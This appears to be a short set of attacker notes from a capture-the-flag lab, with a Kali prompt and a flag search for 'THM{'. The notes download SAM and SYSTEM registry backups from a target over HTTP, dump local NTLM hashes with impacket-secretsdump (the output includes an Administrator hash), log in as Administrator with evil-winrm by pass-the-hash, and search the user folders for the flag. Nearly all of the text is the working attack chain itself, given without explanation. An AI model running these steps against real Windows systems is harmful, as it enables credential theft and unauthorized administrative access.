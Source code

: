 



--MAQUINA KALI ATACANTE


wget http://10.201.71.91:8080/system.bak
wget http://10.201.71.91:8080/sam.bak


impacket-secretsdump -sam sam.bak -system system.bak local



impacket-secretsdump -sam sam.bak -system system.bak local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dfe3378335d43f9764e581b856a662a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
evader:1022:aad3b435b51404eeaad3b435b51404ee:09de49072c2f43db1d7d8df21486bc73:::
user:1023:aad3b435b51404eeaad3b435b51404ee:6de00c52dbabb0e95c074e3006fcf36e:::
[*] Cleaning up... 
                                                                            
┌──(kali㉿kali)-[~/Downloads/stealth]



evil-winrm -i 10.201.71.91 -u Administrator -H 2dfe3378335d43f9764e581b856a662a



Get-ChildItem C:\Users -Recurse | Select-String "THM{"
